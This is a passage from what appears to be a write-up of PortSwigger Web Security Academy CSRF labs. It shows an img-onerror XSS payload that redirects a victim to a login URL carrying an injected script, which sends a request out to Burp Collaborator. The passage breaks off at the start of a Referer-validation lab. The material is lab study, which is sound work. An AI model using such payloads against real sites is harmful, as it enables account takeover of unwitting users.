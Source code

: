 ![](../../.gitbook/assets/portswigger-csrf-writeup-image-28.png)

The POST requests for logins can be changed to GET requests, which allows me to deliver the URL encoded script to the victim:

```html
<img src="x" onerror=document.location="https://cms-0a6100740330309982f244c300c300fe.web-security-academy.net/login?username=URL-SCRIPT&password=test">
```

This causes a POST request to be sent to Collaborator:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-29.png)

## Lab 10: Cookie Refresh (Skipped)

Skipped cus it contains OAuth, not doing that now.

## Lab 11: Referer Validation depending on header presence

To solve this lab, change the email of the victim. The POST request for the changing of email:
